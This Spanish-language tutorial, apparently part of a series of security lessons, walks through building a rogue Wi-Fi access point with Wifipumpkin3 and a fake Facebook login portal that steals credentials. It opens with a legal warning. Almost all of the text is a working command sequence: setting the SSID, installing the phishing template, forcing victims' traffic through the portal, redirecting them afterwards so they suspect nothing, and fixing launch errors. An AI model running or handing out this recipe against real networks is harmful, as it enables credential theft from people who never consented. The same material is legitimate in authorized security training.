




# 07 - Ingeniería Social: Rogue AP con Wifipumpkin3

En esta sección aprenderemos a montar un Punto de Acceso Falso (Rogue AP) con un portal cautivo corporativo preparado para robar credenciales mediate ingeniería social, utilizando la suite **Wifipumpkin3**.

> [!WARNING]
> Crear redes WiFi falsas para interceptar tráfico de usuarios reales sin su permiso es un delito. Esto es estrictamente para entornos controlados.

## 1. Lanzar Wifipumpkin3

Abrimos la herramienta con permisos de superusuario:

```bash
sudo wifipumpkin3
```
Una vez dentro, veremos el *prompt* de `wp3 >` desde donde enviaremos las configuraciones.



---

## 2. Configuración Inicial del AP

Para ver los parámetros básicos que podemos configurar en el Punto de Acceso (AP), usamos el comando `ap`.

### Seleccionar la Interfaz
Le indicamos a la herramienta qué antena WiFi usaremos para emitir la señal (generalmente `wlan0`):
```text
wp3 > set interface wlan0
```
*(Puedes escribir `ap` de nuevo para verificar que la interfaz se ha guardado).*

### Nombrar la Red (SSID)
Elegimos el nombre que verán las víctimas en sus teléfonos o computadoras:
```text
wp3 > set ssid NombreQueLeQuierasPoner
```
*(Vuelve a escribir `ap` para confirmar).*




### Ignorar DNS del Hosting
Para evitar problemas de resolución de nombres con nuestro servidor real, usamos este comando:
```text
wp3 > ignore pydns_server
```

---

## 3. Preparando el Portal Cautivo

Vamos a utilizar un "Captive Portal", esa típica pantalla que salta sola al conectarse a un WiFi público pidiendo que inicies sesión.

### Ver módulos disponibles
Para ver qué módulos tiene la herramienta:
```text
wp3 > show
```



### Seleccionar el módulo "CaptiveFlask"
Este módulo usa plantillas web (Flask) para emular páginas de inicio de sesión:
```text
wp3 > use misc.extra_captiveflask
```

### Instalar la plantilla (Ej. Facebook)
Descargamos e instalamos la plantilla que simula el inicio de sesión de Facebook:
```text
wp3 > install facebook
```
*(Una vez instalada, escribimos `back` para volver al menú principal).*

---

## 4. Activación del Módulo en los Proxies

Para que la navegación de la víctima sea redirigida hacia nuestra web falsa, configuramos los proxys.

### Ver proxys
```text
wp3 > proxies
```



### Activar CaptiveFlask
Le decimos al sistema que todo el tráfico pase por el portal cautivo:
```text
wp3 > set proxy captiveflask
```
*(Si ahora escribes `proxies`, verás que el módulo captiveflask aparece como `true`).*

### Configurar la plantilla de Facebook
Le asignamos al proxy la plantilla que descargamos anteriormente:
```text
wp3 > set captiveflask.facebook true
```

### Redirección Post-Login
Una vez que el usuario meta sus credenciales, ¿a dónde lo enviamos para no levantar sospechas? En este caso, lo forzamos a ir a Google:
```text
wp3 > set captiveflask.force_redirect_to_url https://google.com
```
*(Si vuelves a escribir `proxies`, verás toda la configuración aplicada).*

---

## 5. ¡Lanzar el Ataque!

Con todo configurado correctamente, levantamos el punto de acceso falso:

```text
wp3 > start
```

### ❌ Error Común al Iniciar (Conflictos con Modo Monitor)

Si al ejecutar `start` recibes un error y el AP no levanta, es sumamente probable que tu tarjeta siga en **modo monitor** (por ejemplo, por haber estado usando airodump-ng antes). Wifipumpkin3 a menudo necesita "control exclusivo" sobre una interfaz virgen.

**¿Cómo lo soluciono?**
1. Sal de Wifipumpkin con `Ctrl+C` o `exit`.
2. Detén el modo monitor de la tarjeta:
   ```bash
   sudo airmon-ng stop wlan0
   ```
3. (Opcional pero recomendado) Reinicia los servicios de red: `sudo systemctl restart NetworkManager`.
4. Vuelve a entrar a `sudo wifipumpkin3` y ejecuta `start` de nuevo.
